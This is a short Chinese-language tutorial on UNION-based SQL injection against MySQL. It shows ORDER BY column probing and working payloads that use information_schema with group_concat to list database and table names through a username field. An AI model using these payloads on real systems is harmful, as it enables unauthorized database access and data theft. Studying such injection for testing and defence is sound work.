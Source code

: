 
### union 注入攻击
- 步骤，union的特性是需要在查询中使用
- 并且union的列数需要一致
- 并且union前后的数据类型需要一致
- 因此，出发点如下
- 使用order by 探测原来的查询的列数
- 闭合条件，保证SQL语法没问题，使用单引号加注释符号
- 构造不存在的条件，绕过原来的查询语句的类型，比如id=-1
- 构造符合列数的union语句进行注入

### 判断列数
- 当出现报错时，则已经达到最大列数
- 当order by 1,2,3,4时，则报错
- 说明最大列数为4-1=3
- 攻击语句
```shell script
-1' order by 1,2,3 --
```
```sql
SELECT id,username,realname FROM sys_user 
WHERE username='-1' order by 1,2,3 --
```

### 获取数据
- 主要原理
- 因为是用户名，需要表不存在的用户名
- 所以这里username='-1'是不存在的用户名
- 这里针对mysql,所以库名信息，在information_schema这个数据库中
- 由于列数的限制，一般使用group_concat和concat进行得到更多的列数据

### 曝库
- 攻击语句
```sql
-1' union select 1,group_concat(schema_name),3 from information_schema.schemata -- 
```
- 最终执行SQL
```sql
SELECT id,username,realname FROM sys_user 
WHERE username='-1' union select 1,group_concat(schema_name),3 from information_schema.schemata -- 
```

### 曝表
- 攻击语句
```sql
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='i2f_proj'  -- 
```
- 最终执行SQL
```sql
SELECT id,username,realname FROM sys_user 
WHERE username='-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='i2f_proj'  -- 
```
